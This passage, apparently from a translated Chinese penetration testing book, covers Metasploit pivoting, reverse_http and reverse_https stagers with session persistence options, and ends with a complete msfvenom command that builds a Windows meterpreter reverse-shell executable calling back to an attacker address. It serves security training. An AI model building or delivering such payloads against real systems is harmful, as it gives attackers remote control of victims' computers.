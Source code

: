 
如前面的屏幕截图所示，枢纽成功了，我们现在在 metasploit 中有另一个会话打开。这反映在**本地管道** | **远程管道**的引用中。完成查看信息后，输入`sessions`以显示会话的信息。此结果的示例如下屏幕截图所示：

![枢纽](img/477-1_12_23.jpg)

## 代理利用

在这一部分，我们将看一下 metasploit 工具使用 HTTP 和 HTTPS 进行通信的能力。我们经常遭受的一种防御是出站或出站流量的概念。现在，通常情况下只允许出站 HTTP 和 HTTPS 流量；因此，metasploit 的开发人员已经为此创建了模块。

## 利用客户端配置

当我们使用技术将通信传输到我们的攻击者机器时，我们将读取客户端配置，然后通过那里配置的代理发送流量。传统上，这是一个困难的过程，需要相当长的时间来设置。因此，时间和通信要求增加了被检测到或会话超时的机会。幸运的是，我们可以探索其他附加选项来帮助我们。metasploit 的开发人员已经创建了两个分段器，允许我们利用客户端配置，并且在 Meterpreter shell 内部原生支持 HTTP 和 HTTPS 通信。此外，这些分段器提供了设置多种不同选项的能力，允许在指定的时间段内重新连接会话，通过设置会话的到期日期。

这两个分段器是**reverse_http**和**reverse_https**。这两个分段器是独特的，它们不与特定的 TCP 会话绑定，即它们提供了基于数据包的事务方法，而其他选项是基于流的。这为攻击提供了更强大的一组选项。此外，我们提供了三个选项来帮助我们确定用户何时完成，它们如下：

+   到期日期：默认值为一周

+   **生存时间**（**TTL**）：默认值为 5 分钟

+   暴露的 API 核心：使用分离命令退出但不终止会话

这些参数允许我们断开会话并自动稍后重新连接。它们还允许我们将有效载荷设置为持久侦听器，然后即使目标重新启动或关闭，也可以连接到它。我们现在将探讨这一点。

我们将使用一个恶意可执行文件作为示例。我们可以使用多种不同的向量，如 Web、电子邮件或 USB，但为了更简单的选择，我们将使用恶意可执行文件。此外，我们将使用一个特殊的工具来创建有效载荷。如果您没有运行 metasploit，请输入`msfconsole`来启动该工具。一旦工具启动，输入`msfvenom -p windows/meterpreter/reverse_https -f exe LHOST=192.168.177.170 LPORT=4443 > https.exe`来创建名为`https.exe`的可执行文件。该命令的输出示例如下屏幕截图所示：

![利用客户端配置](img/477-1_12_24.jpg)
